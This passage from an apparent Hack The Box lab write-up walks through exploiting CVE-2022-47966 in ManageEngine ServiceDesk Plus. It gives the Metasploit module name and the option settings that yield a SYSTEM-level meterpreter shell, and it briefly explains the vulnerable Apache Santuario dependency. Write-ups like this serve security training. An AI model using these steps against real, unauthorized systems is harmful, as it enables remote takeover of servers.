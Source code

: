 I took a hint from the HTB forum, and it seems `metasploit` is the easiest way to exploit this. So let's boot `msfconsole` to exploit it. First, we can find the new module for this:

{% embed url="https://github.com/rapid7/metasploit-framework/pull/17527" %}

Either import the module or we can update `metasploit` and access the module via `use exploit/multi/http/manageengine_servicedesk_plus_saml_rce_cve_2022_47966`. Looking at the options, the main ones to set are **GUID and ISSUER\_URL.** The GUID must be the string we got after logging in. Based on the definition of the issuer URL, we can find it quite easily by googling SAML SSO identity provider. We can set the options below:

```
set RHOSTS 172.16.22.1
set LHOST tun0
set SSL true
set RPORT 9251
set GUID 67a8d101690402dc6a6744b8fc8a7ca1acf88b2f
set ISSUER_URL http://dc.cerberus.local/adfs/services/trust
```

When executed, we would get a meterpreter shell as the SYSTEM user.

<figure><img src="../../.gitbook/assets/image (7) (1) (2).png" alt=""><figcaption></figcaption></figure>

Using hints from the forum were really helpful, because I dislike using Metasploit and would have naturally avoided it.

## Beyond Root

I feel that I should delve into a bit on how the exploit works since Metasploit is a black box after all. This vulnerability arises from an outdated dependency on Apache Santuario, which it self is vulnerable to RCE dating back to 2008.

I would try to explain the exploit, but the report itself does a way better job than I ever can. Check it out!

{% embed url="https://blog.viettelcybersecurity.com/saml-show-stopper/" %}
